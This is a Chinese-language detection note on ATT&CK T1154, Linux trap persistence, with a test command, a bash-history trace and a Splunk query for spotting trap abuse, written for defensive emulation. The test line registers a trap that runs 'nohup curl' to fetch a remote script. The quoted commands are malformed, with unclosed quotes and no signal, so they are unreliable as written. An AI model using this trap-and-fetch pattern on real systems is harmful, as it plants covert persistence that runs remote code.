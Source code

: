 # T1154-Linux-trap

## 来自ATT&CK的描述

该`trap`命令允许程序和shell指定在接收中断信号时将执行的命令。常见的情况是脚本允许正常终止和处理常见的键盘中断，如`ctrl+c`和`ctrl+d`。攻击者可以使用它来注册当shell遇到特定中断以执行或作为持久性机制时要执行的代码。陷阱命令具有以下格式`trap 'command list' signals`，其中当接收到“信号”时将执行“命令列表”。

## 测试案例

```bash
trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh # 脚本即使在退出后（ctrl + c）也会继续执行程序/脚本。

trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh
```

关于trap、nohup命令的更多解释，你可以查看参考链接部分。

## 检测日志

bash历史命令

## 测试复现

```bash
icbc@icbc:/$ trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh

> ^C
```

## 测试留痕

```bash
icbc@icbc:/$ history

 693  trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh

```

## 检测规则/思路

### splunk规则

index=linux sourcetype=bash_history "trap *" | table host,user_name,bash_command

### 建议

暂无

## 参考推荐

MITRE-ATT&CK-T1154

<https://attack.mitre.org/techniques/T1154/>

linux下trap命令详解

<https://blog.csdn.net/carolzhang8406/article/details/46504415/>

linux下nohup命令浅析

<https://www.bbsmax.com/A/kjdw9606JN/>
